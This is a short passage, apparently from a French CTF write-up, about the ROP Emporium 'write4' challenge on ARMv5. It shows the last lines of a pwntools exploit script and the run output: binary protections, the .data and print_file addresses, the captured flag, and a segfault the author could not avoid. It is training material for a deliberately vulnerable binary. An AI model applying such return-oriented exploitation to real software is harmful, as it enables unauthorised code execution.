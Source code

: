 ```python

io.sendline(PL)
io.interactive()
```


### Son exécution

    [*] '/home/jce/w/ropemporium/armv5/04_write4/write4_armv5'
        Arch:     arm-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x10000)
        RUNPATH:  b'.'
    [+] Starting local process '/home/jce/w/ropemporium/armv5/04_write4/write4_armv5': pid 11007
    [*] .data       = 0x135204
    [*] .print_file = 0x66736
    [*] Switching to interactive mode
    Thank you!
    ROPE{a_placeholder_32byte_flag!}
    qemu: uncaught target signal 11 (Segmentation fault) - core dumped
    [*] Got EOF while reading in interactive

Je n'ais pas trouvé comment enchaîner avec adresse propre pour ne pas planter